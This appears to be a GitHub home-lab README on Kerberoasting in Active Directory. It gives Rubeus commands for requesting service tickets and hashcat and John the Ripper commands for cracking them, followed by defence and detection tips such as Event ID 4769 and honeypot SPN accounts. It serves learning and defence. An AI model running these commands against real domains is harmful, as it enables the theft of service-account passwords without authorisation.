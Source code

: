 # Kerberoasting

## Objective

Kerberos uses Service Principal Names (SPNs) to link service instances to logon accounts, allowing client applications to request authentication without knowing the account name. Kerberoasting exploits this by obtaining a Ticket Granting Service (TGS) ticket, which is encrypted with the service account's NTLM hash, and then performing offline password cracking.

### Skills Learned

- Active Directory
- Domain Policy
- Domain Functional Levels
- Password Policy
- Kerberos Delegation

### Tools Used

- Windows Server DC
- PKI
- Kali Linux
- Rubeus
- Hashcat
- Event Viewer

## Exploit
  Rubeus can be used to obtain crackable tickets.
  ```
  Rubeus.exe kerberoast /outfile:spn.txt
  ```
  ![image](https://github.com/user-attachments/assets/a1dd7db9-d75c-4c1c-89d8-73fc78928428)

Once the tickets are obtained then it's time to crack them.  We can use two tools for this:
  - Hashcat
  - JackTheRipper

#### Hashcat
  This is possible using mode (-m) 13100 for a Kerberoastable TGS (Ticket Granting Service).
  
  ``` hashcat -m 13100 -a 0 spn.txt passwords.txt --outfile="cracked.txt``` -- If hashcat gives an error the option.
  ```--force``` may be necessary.
  
  Once Hashcat finishes cracking, the output will show the password in plain text:
  

#### John The Ripper
  Captured TGS hashes can be cracked just the same:
  ```
  sudo john spn.txt --fork=4 --format=krb5tgs --wordlist=passwords.txt --pot=results.pot
  ```
  INSERT SCREENSHOT

  
## Defending

  - Limits SPN usage and disable those no longer needed/used.
  - Strong passwords are required (100+ characters)
  - Use Group Managed Service Accounts (GMSA) whenever possible.

## Detection

  -  Event ID 4769 should return the following useful information:
    ![image](https://github.com/user-attachments/assets/61991542-10d9-4dbd-91c8-242504c342db)
  - A honeypot account 2+ years old with a difficult to break password is a perfect detection option in an AD environment.
  - Assign some privs to make the account interesting and must have an SPn registered.
  - ANY activity in this account, successful or not, is suspicious and should be alerted. 
